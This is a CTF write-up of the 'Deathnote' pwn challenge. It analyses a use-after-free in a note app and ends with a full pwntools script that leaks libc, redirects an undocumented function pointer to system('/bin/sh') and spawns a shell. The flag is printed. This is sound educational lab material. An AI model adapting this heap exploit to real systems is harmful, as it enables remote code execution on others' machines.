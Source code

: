 # Cyber Apocalypse 2024

# Deathnote

> You stumble upon a mysterious and ancient tome, said to hold the secret to vanquishing your enemies. Legends speak of its magic powers, but cautionary tales warn of the dangers of misuse.

## Analysis

First let's examine what we got. The deathnote binary is a simple note app with 4 functionalities. It is a secret what function 42 does, haha.

![image](https://github.com/respawnRW/writeups/assets/163560495/491c9633-53eb-4064-beb4-e4b833991a99)

Let's check the binary securities, we also know that it's a pwn challenge, we ned to know what we are facing.
```bash
└─$ checksec deathnote     
[*] '/home/kali/htb_stuffz/ctf_2024/pwn_deathnote/challenge/deathnote'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

Main options that are self-explanatory functionalities are note creation (create note), remove entry (freeing up), and displaying a note.

If we launch the binary, functionalities 1-3 are working fine. Nonetheless, the option 42 is giving us a segmentation fault.

![image](https://github.com/respawnRW/writeups/assets/163560495/2052f961-f70a-4f83-b6ad-94e8d3260220)

Assumption is that we are trying to execute memory location, something that causes the segmentation fault. 

And we're going to work on this! Option no 42 is the key ?¿?¿? to pwn.

## Disassemble

Pick your favorite disassemble and let's dwipe into this short binary. Let's tear its functionalities into pieces and parts.

What we are really keen on is the functionality number 42, the others are seemingly normal options, working just as expected.

Upon disassembling in Ghidra, we find `main`, `show`, `add`, `delete`, a few boring ones such as `read_num`, `cls`, `menu`, `setup`, etc.

For the sake of this writeup, I will only include the function that stands out, is the `_` function. Which is the undocumented #42! Probably? Yeah!

```c
void _(char **param_1)

{
  long lVar1;
  code *pcVar2;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\x1b[1;33m");
  cls();
  printf(&DAT_00102750,&DAT_00102010,&DAT_001026b4,&DAT_00102010,&DAT_001026b4,&DAT_00102008);
  pcVar2 = (code *)strtoull(*param_1,(char **)0x0,0x10);
  if (((pcVar2 == (code *)0x0) && (**param_1 != '0')) && ((*param_1)[1] != 'x')) {
    puts("Error: Invalid hexadecimal string");
  }
  else {
    if ((*param_1 == (char *)0x0) || (param_1[1] == (char *)0x0)) {
      error("What you are trying to do is unacceptable!\n");
                    /* WARNING: Subroutine does not return */
      exit(0x520);
    }
    puts(&DAT_00102848);
    (*pcVar2)(param_1[1]);
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
And we need to look at the delete function as well.

<details open>
<summary function delete </summary>
```c
void delete(long param_1)

{
  long lVar1;
  byte bVar2;
  char cVar3;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  printf(&DAT_0010268e);
  bVar2 = read_num();
  cVar3 = check_idx(bVar2);
  if (cVar3 == '\x01') {
    if (*(long *)(param_1 + (ulong)bVar2 * 8) == 0) {
      error("Page is already empty!\n");
    }
    else {
      printf("%s\nRemoving page [%d]\n\n%s",&DAT_0010272e,(ulong)bVar2,&DAT_00102008);
    }
    free(*(void **)(param_1 + (ulong)bVar2 * 8));
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
</details>

## Solution

What we can see during the disassembly is that our assumption was correct. Option 42 is trying to execute the address from page 0 with the argument of page 1 as parameter. This means we are going to attemt use after free vulnerability exploitation. Malloc metadata from the freed chunks should be leakable. Our plan is to prepare the heap, fill up the tcache bins, so the metadata of malloc is going to leak the `unsortedbin` address in libc and finally we can calculate the base address of it.

It's pretty simple actually. Our approach is going to be abusing a user-after-free vulnerability, the strategy is exploiting the heap and leveraging a leak to call a libc function. In order to prepare for the heap manipulation, we need to set up the necessary conditions for the buffer overflow. This means filling up the tcache bins by creating and deleting several notes. Once the setup is ready, we can remove a note and the libc pointer is going to be put in its place. We can then proceed to read this note. Which isn't going to be a note, hell yeah; because that's how we're going to leak the libc address. From this point, we can find the system function's address in memory. 

By creating another note, we can manipulate execution flow, and rewrite the function pointer/return address where we want to: to the system function's address. The second note that we create now is going to be the argument of the ystem function call, which is `'/bin/sh'` since we are planning to spawn a shell. And knowing from the disassembled code, we can now launch that undocumented super-secret '#42' functionality. That command #42 is going to trigger the execution flow of our buffer overflow. And that's it, wrapping it up.

Check out the entire pwner script fully commented, everything should make sense.

```python
#!/usr/bin/env python3

from pwn import *
import time

context.binary = elf = ELF('./deathnote')
context.log_level = 'error'

io = remote("94.237.57.59", 34787) if args.REMOTE else process()

def create_note(size, page, content):
    # note creation function
    io.recv(2048)
    io.sendline(b'1')  # Send the option to create a note
    io.recv(2048)
    io.sendline(str(size).encode())
    io.recv(2048)
    io.sendline(str(page).encode())
    io.recv(2048)
    io.sendline(content)

def free_note(page):
    # Function to delete a note corresponding to the specified page number
    io.recv(2048)
    io.sendline(b'2')  # send the option #2 to free up
    io.recv(1024)
    io.sendline(str(page).encode())

def read_note(page):
    # Function to read a note from the specified page number
    io.recv(2048)
    io.sendline(b'3')  # send option #3 to read
    io.recv(1024)
    io.sendline(str(page).encode())

def execute_code():
    # triggering the buffer overflow and RCE
    io.recv(2048)
    io.sendline(b'42')  # option 42 ????

# fill up tcache bins, prepare for buffer overflow
for i in range(0, 10):
    create_note(128, i, b'blah')

for i in range(1, 10):
    free_note(i)

# where the leak happens, freeing a note then reading it, will contain a pointer to libc!
free_note(0)
read_note(0)
io.recvline()  # clear out any previous data up to a newline

# parse the leaked address (strip whitespaces, split at colon, and the address placed into variable)
leak = unpack(io.recvline().strip().split(b": ")[1].ljust(8, b'\x00'))

# calculating the libc address
libc_system = leak - 1875824

# let's create those 2 notes to overwrite function pointers, call to 'system' to execute '/bin/sh'
create_note(len(hex(libc_system)[2:].encode())+1, 0, hex(libc_system)[2:].encode())
create_note(len(b'/bin/sh')+1, 1, b'/bin/sh')

# let's wrap it up
execute_code()

io.interactive()
io.close()
```

And here's how the script is doing its job.

![image](https://github.com/respawnRW/writeups/assets/163560495/31d05974-1139-4d45-9bec-14fbfe018826)

Flag: `HTB{0m43_w4_m0u_5h1nd31ru~uWu}`

Be done with it.

Hope you find it useful,

`--RW`

## Resources

https://6point6.co.uk/insights/common-software-vulnerabilities-part-ii-explaining-the-use-after-free/

